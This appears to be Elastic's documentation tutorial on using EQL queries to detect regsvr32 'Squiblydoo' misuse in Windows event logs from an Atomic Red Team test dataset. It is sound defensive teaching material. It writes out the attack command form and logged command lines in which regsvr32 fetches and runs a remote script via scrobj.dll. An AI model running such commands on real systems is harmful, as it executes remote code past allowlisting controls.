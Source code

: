 [role="xpack"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

This example tutorial shows how you can use EQL to detect security threats and
other suspicious behavior. In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1218/010/[regsvr32 misuse] in Windows event
logs.

`regsvr32.exe` is a built-in command-line utility used to register `.dll`
libraries in Windows. As a native tool, `regsvr32.exe` has a trusted status,
letting it bypass most allowlist software and script blockers.
Attackers with access to a user's command line can use `regsvr32.exe` to run
malicious scripts via `.dll` libraries, even on machines that otherwise
disallow such scripts.

One common variant of regsvr32 misuse is a
https://attack.mitre.org/techniques/T1218/010/[Squiblydoo attack]. In a
Squiblydoo attack, a `regsvr32.exe` command uses the `scrobj.dll` library to
register and run a remote script. These commands often look like this:

[source,sh]
----
"regsvr32.exe  /s /u /i:<script-url> scrobj.dll"
----

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team] that includes
events imitating a Squiblydoo attack. The data has been mapped to
{ecs-ref}[Elastic Common Schema (ECS)] fields.

To get started:

. Create an <<index-templates,index template>> with
<<create-index-template,data stream enabled>>:
+
////
[source,console]
----
DELETE /_data_stream/*
DELETE /_index_template/*
----
// TEARDOWN
////
+
[source,console]
----
PUT /_index_template/my-data-stream-template
{
  "index_patterns": [ "my-data-stream*" ],
  "data_stream": { },
  "priority": 500
}
----

. Download https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/yamlRestTest/resources/normalized-T1117-AtomicRed-regsvr32.json`].

. Use the <<docs-bulk,bulk API>> to index the data to a matching stream:
+
[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/my-data-stream/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the data was indexed:
+
[source,console]
----
GET /_cat/indices/my-data-stream?v=true&h=health,status,index,docs.count
----
// TEST[setup:atomic_red_regsvr32]
+
The response should show a `docs.count` of `150`.
+
[source,txt]
----
health status index                                 docs.count
yellow open   .ds-my-data-stream-2099.12.07-000001         150
----
// TESTRESPONSE[s/.ds-my-data-stream-2099.12.07-000001/.+/ non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of regsvr32 events

First, get a count of events associated with a `regsvr32.exe` process:

[source,console]
----
GET /my-data-stream/_eql/search?filter_path=-hits.events    <1>
{
  "query": """
    any where process.name == "regsvr32.exe"                <2>
  """,
  "size": 200                                               <3>
}
----
// TEST[setup:atomic_red_regsvr32]

<1> `?filter_path=-hits.events` excludes the `hits.events` property from the
response. This search is only intended to get an event count, not a list of
matching events.
<2> Matches any event with a `process.name` of `regsvr32.exe`.
<3> Returns up to 200 hits for matching events.

The response returns 143 related events.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

`regsvr32.exe` processes were associated with 143 events. But how was
`regsvr32.exe` first called? And who called it? `regsvr32.exe` is a command-line
utility. Narrow your results to processes where the command line was used:

[source,console]
----
GET /my-data-stream/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line.keyword != null
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches one event with an `event.type` of `creation`, indicating the
start of a `regsvr32.exe` process. Based on the event's `process.command_line`
value, `regsvr32.exe` used `scrobj.dll` to register a script, `RegSvr32.sct`.
This fits the behavior of a Squiblydoo attack.

[source,console-result]
----
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": ".ds-my-data-stream-2099.12.07-000001",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/  \.\.\.\n/"is_partial": false, "is_running": false, "took": $body.took, "timed_out": false,/]
// TESTRESPONSE[s/"_index": ".ds-my-data-stream-2099.12.07-000001"/"_index": $body.hits.events.0._index/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

Check if `regsvr32.exe` later loads the `scrobj.dll` library:

[source,console]
----
GET /my-data-stream/_eql/search
{
  "query": """
    library where process.name == "regsvr32.exe" and dll.name == "scrobj.dll"
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches an event, confirming `scrobj.dll` was loaded.

[source,console-result]
----
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": ".ds-my-data-stream-2099.12.07-000001",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "@timestamp": 131883573237450016,
          "dll": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "event": {
            "category": "library"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/  \.\.\.\n/"is_partial": false, "is_running": false, "took": $body.took, "timed_out": false,/]
// TESTRESPONSE[s/"_index": ".ds-my-data-stream-2099.12.07-000001"/"_index": $body.hits.events.0._index/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-success]]
=== Determine the likelihood of success

In many cases, attackers use malicious scripts to connect to remote servers or
download other files. Use an <<eql-sequences,EQL sequence query>> to check
for the following series of events:

. A `regsvr32.exe` process
. A load of the `scrobj.dll` library by the same process
. Any network event by the same process

Based on the command line value seen in the previous response, you can expect to
find a match. However, this query isn't designed for that specific command.
Instead, it looks for a pattern of suspicious behavior that's generic enough to
detect similar threats.

[source,console]
----
GET /my-data-stream/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == "regsvr32.exe"]
      [library where dll.name == "scrobj.dll"]
      [network where true]
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          2012
        ],
        "events": [
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          },
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573237450016,
              "dll": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "event": {
                "category": "library"
              }
            }
          },
          {
            "_index": ".ds-my-data-stream-2099.12.07-000001",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573238680000,
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "event": {
                "category": "network"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              },
              "network": {
                "protocol": "tcp",
                "direction": "outbound"
              }
            }
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/  \.\.\.\n/"is_partial": false, "is_running": false, "took": $body.took, "timed_out": false,/]
// TESTRESPONSE[s/"_index": ".ds-my-data-stream-2099.12.07-000001"/"_index": $body.hits.sequences.0.events.0._index/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
